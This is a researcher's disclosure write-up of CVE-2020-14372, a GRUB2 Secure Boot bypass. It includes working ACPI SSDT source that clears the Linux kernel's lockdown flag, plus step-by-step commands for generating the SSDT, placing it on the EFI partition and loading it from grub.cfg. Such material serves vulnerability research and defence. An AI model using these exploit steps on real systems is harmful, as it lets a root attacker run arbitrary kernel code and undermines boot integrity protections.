 <!--GEN_META
GEN_TITLE=CVE-2020-14372: Secure Boot bypass using GRUB2
GEN_DESCRIPTION=Bypassing (not so) Secure Boot with one "simple trick"
GEN_KEYWORDS=CVE-2020-14372,writeup,POC, GRUB2,UEFI,SecureBoot
GEN_AUTHOR=Máté Kukri
GEN_TIMESTAMP=2021-05-22 17:11
GEN_COPYRIGHT=Copyright (C) Máté Kukri, 2021
-->

## Vulnerability details

One day I typed "help" into GRUB2's console and saw some really "fun"
commands:

* `read_byte ADDR`:      Read 8-bit value from ADDR
* `write_byte ADDR VAL`: Write 8-bit value VAL to ADDR

I immediately thought I found the most fun Secure Boot bypass, but these
commands output the following under Secure Boot:
```
error: Secure Boot forbids loading module .../memrw.mod.
```

Out of curiosity, booted this way I typed the "acpi" command, and it printed
a usage message telling me to point it to an AML file. It's well-known that
another name for ACPI is a "mechanism to run arbitrary vendor provided code
in the context of your kernel", since we can load ACPI tables with Secure Boot
enabled, we are the "vendor" who can provide that code.

But since there is a one-byte flag (kernel_locked_down) in the data segment of
the booted kernel telling it whether or not its "locked down", we can just
overwrite that flag using an SSDT and let the kernel load arbitrary modules.

The following SSDT accomplishes this by creating a "battery" object called `HACK`,
and doing the write in said object's `_INI` method which is always executed by
the kernel:
```
DefinitionBlock ("trigger.aml", "SSDT", 2, "", "", 0x00001001)
{
  OperationRegion (KMEM, SystemMemory, ADDRESS_GOES_HERE, 4)
  Field (KMEM, DWordAcc, NoLock, WriteAsZeros)
  {
    LKDN, 32
  }
  Device (\_SB_.HACK)
  {
    Name(_HID, EisaId ("PNP0C0A"))
    Name(_UID, 0x02)
    Method(_INI)
    {
      If (LKDN)
      {
        LKDN = Zero
      }
    }
  }
}
```

I wrote a proof of concept exploit in Python that helps with generating this SSDT,
but exploting this by hand is not that difficult either. The rough outline is as
follows:

* Disable KASLR by adding `nokaslr` to the kernel command line
* Find the **physical** address of the `kernel_locked_down` symbol after booting
   without KASLR
* Insert the address into the SSDT above, than compile that SSDT using `iasl`
* Finally instruct GRUB2 to load the SSDT

## How to use the PoC

Proof of concept exploit hosted on $<a href="https://github.com/kukrimate/CVE-2020-14372">GitHub</a>$.

Assumptions:

* The attacker has `root` access to the running operating system
* Linux is booted under UEFI Secure Boot with GRUB2 version <=2.02
  (some builds of 2.02 are patched), this will cause kernel lockdown to be enabled

When the above assumptions are met, edit `/etc/default/grub`, add `nokaslr`
to `GRUB_CMDLINE_LINUX_DEFAULT`, run `update-grub`, and then finally reboot.

After the kernel is booted without address space layout randomization, the
`genssdt.py` script can be used to generate a "malicious" SSDT that will patch
the kernel's memory at runtime to disable lockdown:

```
python3 genssdt.py > trigger.dsl
iasl trigger.dsl
cp trigger.aml /boot/efi/evil_ssdt.aml
```

Now that the SSDT was created, the GRUB configuration file
(usually at `/boot/grub/grub.cfg`) must be edited to make GRUB load this SSDT
(adding this to the top of this file):

```
acpi (hd0,gpt1)/evil_ssdt.aml
```

Based on where the EFI system partition (where we placed the SSDT above) resides
on disk, `(hd0,gpt1)` might need to be replaced with something else.

Finally after a reboot, kernel lockdown should be disabled, giving `root` the
ability to execute arbitrary code in the kernel.
